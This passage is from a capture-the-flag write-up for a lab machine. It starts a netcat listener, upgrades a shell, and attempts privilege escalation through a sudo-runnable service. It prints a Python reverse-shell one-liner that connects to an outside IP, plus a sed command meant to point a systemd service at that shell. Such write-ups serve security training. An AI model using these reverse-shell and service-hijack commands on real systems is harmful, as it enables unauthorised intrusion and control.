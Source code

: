 -   I start my local listener.
    -   `rlwrap -cAr nc -nvlp 4433`

-   I run the exploit and get a shell.
    -   {{< figure src="/ox-hugo/2024-12-27-071945_.png" >}}

-   Lets get the user flag:
    -   {{< figure src="/ox-hugo/2024-12-27-072035_.png" >}}

-   Now that I have a shell, I will upgrade it so I can have more functionality.
    -   `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    -   {{< figure src="/ox-hugo/2024-12-27-073125_.png" >}}

-   I check what commands I can run with sudo privileges and there is a service, `trail.service` I can run with sudo privileges.
    -   {{< figure src="/ox-hugo/2024-12-27-073318_.png" >}}


## 3. Privilege Escalation: {#3-dot-privilege-escalation}


### Side-quest/rabbit hole: {#side-quest-rabbit-hole}

+Note+: This was a little side quest that I have left in for transparency.

-   Reading the service file I can see it runs the `server.py` file which is in the `/opt/maltrail` folder. Which means if I can edit this file or if I can change the file it executes.
    -   {{< figure src="/ox-hugo/2024-12-27-074416_.png" >}}

-   I tried a lot of ways to get vim working, however no matter how I upgraded my shell it would not work. Luckily I can use built in tools such as `sed` to replace content within the files.
    ```bash
    # Command:
    sed -i 's/[ReplaceThisContent]/[WithThisContent]/' [File]
    ```

    -   It's as simple as that, it's much like find and replace within `vim`. E.G. I can pass flags such as `g` to perform global replacements in the entire file.

-   Let's create a python reverse shell in our home dir.
    ```shell
      echo 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.18",4242));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")' >> ~/shell.py
    ```

    -   {{< figure src="/ox-hugo/2024-12-27-111346_.png" >}}

-   I can now use `sed` to modify the trail.service to point at our new reverse shell.
    ```bash
    sed -i "s/ExecStart=\/usr\/bin\/python3\ server.py/ExecStart=\/usr\/bin\/python3\ \/home\/puma\/shell.py/g" trail.service
    ```

-   Ill that did not work as I cannot write to the file.
    -   {{< figure src="/ox-hugo/2024-12-27-112258_.png" >}}
